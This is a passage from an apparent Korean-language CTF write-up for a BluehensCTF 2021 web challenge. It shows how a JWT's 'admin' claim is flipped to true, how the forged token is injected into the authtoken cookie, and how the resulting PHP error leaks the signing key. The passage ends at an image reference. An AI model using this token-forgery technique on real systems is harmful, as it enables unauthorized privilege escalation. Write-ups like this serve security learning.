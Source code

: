 	```json
	{
	  "admin": false,
	  "name": "test"
	}
	```

	하단에 ``Invalid Signature`` 에러가 뜨면서 이러한 값이 나오는것을 볼 수 있습니다.
	
	해당 디코딩 결과 값을

	```json
	{
	  "admin": true,
	  "name": "test"
	}
	```

	true 로 변경시킨 다음

	```
	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6InRlc3QifQ.Gw1vsxvlE-uFIiXmuyk9POUJaNThILOLy-6QDPqjP2g
	```

	인코딩 시킨 값을 authtoken 쿠키에 주입시키면

	```php
	Fatal error: Uncaught Error: Class 'Firebase\JWT\SignatureInvalidException' not found in /var/www/html/index.php:123 Stack trace: #0 /var/www/html/index.php(531): Firebase\JWT\JWT::decode('eyJ0eXAiOiJKV1Q...', '82a59879a507', Array) #1 {main} thrown in /var/www/html/index.php on line 123
	```

	이렇게 php 에러가 나오면서 ``82a59879a507`` 이러한 서명 확인용 키가 노출됩니다.

	해당 ``82a59879a507`` 키를 가지고

	![jwt-Signature](/post-images/BluehensCTF/2021/WEB/speedrun-3/jwt-Signature.png)
